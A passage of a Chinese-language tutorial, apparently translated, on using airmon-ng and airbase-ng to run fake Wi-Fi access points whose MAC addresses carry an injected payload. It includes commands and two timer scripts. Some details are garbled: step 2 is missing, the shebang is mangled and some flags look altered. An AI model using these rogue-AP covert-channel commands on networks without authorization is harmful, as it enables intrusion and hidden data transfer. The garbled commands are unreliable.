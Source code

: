 **使用WLAN卡的监控模式是伪造AP的重要步骤**

你可以使用命令“airmon-ng start wlan0”为Wlan0创建“Wlan0Mon”监控模式。

注意：你可以手动运行此命令，或者可以在script1.sh文件中使用此命令，如步骤（cmd 1-1）。在本文中，我在攻击者端手动运行此命令。

**步骤1：**攻击者系统将伪造的AP命名为“Fake”，MAC地址为00：fe：c8：b0：00：11。

注意：Mac地址00：fe：c8：b0：00：11是注入的有效载荷，所以我们的有效载荷是“fec8b00011”

cmd 1-1：airmon-ng start wlan0

注意：创建Wlan0Mon（监控模式）

cmd 1-2：airbase-ng -a 00：fe：c8：b0：00：11 -essid“Fake”-I 10 -0 wlan0mon

注意：你需要15秒伪造AP，15秒后你可以通过killall命令在cmd 1-2终止这个命令。

cmd 1-3：sleep 15

cmd 1-4：killall airbase-ng

**步骤3：**攻击者系统将伪造的AP命名为“Fake”，MAC地址为00：dd：c0：09：45：f1

注意：Mac地址00：dd：c0：09：45：f1是注入的有效载荷，所以我们的有效载荷是“ddc00945f1”

cmd 3-1：airbase-ng -a 00：dd：c0：09：45：f1 -essid“Fake”-I 10 -0 wlan0mon

注意：你需要15秒伪造AP，15秒后你可以通过killall命令在cmd 3-1终止这个命令。cmd 3-2：sleep 15

cmd 3-3：killall airbase-ng

你可以看到在实施这些步骤的时候，我们需要使用以上命令，但是我在airbase-ng命令上遇到了大问题。

<br>

**问题以及解决方案**

问题出现在步骤（cmd 1-2）到（cmd 1-3）。

在步骤（cmd 1-2）之后，只有通过ctrl + c或kill能终止airbaseng命令，所以我的bash脚本总是停在步骤（cmd 1-2），直到我终止了进程。

针对这个问题，我的解决方案是使用2 个bash脚本文件：

第一个bash脚本文件是 “Script1.sh”， 使用于步骤（cmd 1-2和cmd 3-1）

注意：你可以在bash脚本的第一行中添加步骤（cmd 1-1）或手动执行。在本文中，我手动执行cmd 1-1。

第二个bash脚本是 “Script2.sh”，使用于步骤（cmd 1-3 &amp; cmd 1-4 &amp; cmd 3-2 &amp; cmd 3-3）

所以在这种情况下，我们应该首先运行bash脚本“Script1.sh”，然后立即或2-3秒后运行bash脚本“Script2.sh”。

我们得到以下的文件：

Script1.sh文件：



```
＃！/ bin / bash
airbase-ng -a 00：fe：c8：b0：00：11 -essid“Fake”-I 10 -0 wlan0mon;
airbase-ng -a 00：dd：c0：09：45：f1 -essid“Fake”-I 10 -0 wlan0mon;
Script2.sh文件：
#!/bin/bash
sleep 15 ;
killall airbase-ng ;
sleep 15 ;
killall airbase-ng ;
```
